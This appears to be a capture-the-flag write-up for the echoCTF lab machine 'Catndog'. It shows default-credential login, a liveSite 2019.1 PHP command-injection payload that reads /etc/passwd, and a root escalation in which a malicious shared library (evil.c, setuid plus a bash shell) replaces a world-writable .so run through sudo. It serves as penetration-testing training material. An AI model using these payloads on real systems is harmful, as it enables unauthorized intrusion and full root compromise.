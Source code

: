 ```yaml
---
description: >-
  Catndog echoCTF Machine
title: Catndog (Advanced)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [default credentials, ]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Catndog.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.242
```

### Content

- Default Credentials
- liveSite version 2019.1 - Remote Code Execution (RCE)
- Abuse a Writable .so in /usr/lib

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.242
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.242 ()   Status: Up
Host: 10.0.160.242 ()   Ports: 80/open/tcp//http///
```

### Exploitation
Checking service HTTP on port 80 I discovered that there is a web application, there is a login portal:
![](/assets/img/Pasted-image-20250609115703.png)

As usual, to login into the application I've found the default credentials `admin:admin` to access, even though an e-mail is needed, the user is admin. I've identified the following [liveSite version 2019.1 - Remote Code Execution (RCE)](https://packetstorm.news/files/id/176420), with this, we can execute the exploit, by first clicking on "Staff" menu, then clicking on "Edit" button which is the pencil symbol and finally, editing the Designer Region:

![](/assets/img/Pasted-image-20250609122926.png)

Then all you need to do is put a php payload such as `<?php echo system('cat /etc/passwd'); ?>` to exploit the RCE:

![](/assets/img/Pasted-image-20250609123113.png)

Finally, you'll see the output of your command at the end of the page:
![](/assets/img/Pasted-image-20250609123217.png)

All you need to do next is to execute your favorite reverse shell command! 

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@catndog:/var/www/html/livesite$ sudo -l
Matching Defaults entries for www-data on catndog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on catndog:
    (ALL : ALL) NOPASSWD: /usr/local/bin/catndog.sh
```
Its content is like this:
```bash
#!/bin/bash
ldconfig
/usr/local/bin/catndog
```

The path for this one was to abuse a writable .so in `/usr/local/lib`, I concluded that because first I execute the `ldd` command which retrieves information about the binary libraries used for execution:
```bash
www-data@catndog:/var/www/html/livesite$ ldd /usr/local/bin/catndog
        linux-vdso.so.1 (0x00007ffff7fd0000)
        libcatndog.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dec000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fd2000)
```
If there is a "not found" library, it means the binary will lookup for it on the lib folder, in this case `/usr/local/lib` if the folder is writable then we have a straightforward privesc path:
```bash
www-data@catndog:/tmp$ ls -al /usr/local/lib/
total 32
drwxr-xr-x 1 root root   4096 Aug 30  2024 .
drwxr-xr-x 1 root root   4096 Apr 11  2023 ..
-rwxrwxrwx 1 root root  15984 Aug 30  2024 libcatndog.so
drwxrwsr-x 4 root staff  4096 Dec 26  2023 python2.7
drwxr-xr-x 3 root root   4096 Apr 19  2023 python3.9
```
Actually, there is alread a library called libcatndog.so in there, so all we need to do is replace it with our malicious one:

1. First create an evil.c with this content:
```bash
// evil.c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) init() {
    setuid(0); setgid(0);
    system("/bin/bash");
}
```

2. Compile it using the following command, you'll probably see some errors, just ignore them:
```bash
www-data@catndog:/tmp$ gcc -fPIC -shared -o libcatndog.so evil.c
```

3. And finally, place the library within the folder `/usr/local/lib/`:
```bash
www-data@catndog:/tmp$ cp libcatndog.so /usr/local/lib/
```

Finally execute the binary with sudo, and we'll have root shell:
```bash
www-data@catndog:/tmp$ sudo /usr/local/bin/catndog.sh
root@catndog:/tmp# whoami
root
```

And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`env` command
`/root`

### Credentials

Credentials identified for this machine are  `admin:admin`

### Notes

- Nothing fancy here, there is no good PoC to exploit this, only a simple description with a poor explanation, a lot of attempts were made to exploit this one, but once you understand even the less documented exploits you can made them work.

### References
- [liveSite version 2019.1 - Remote Code Execution (RCE)](https://packetstorm.news/files/id/176420)



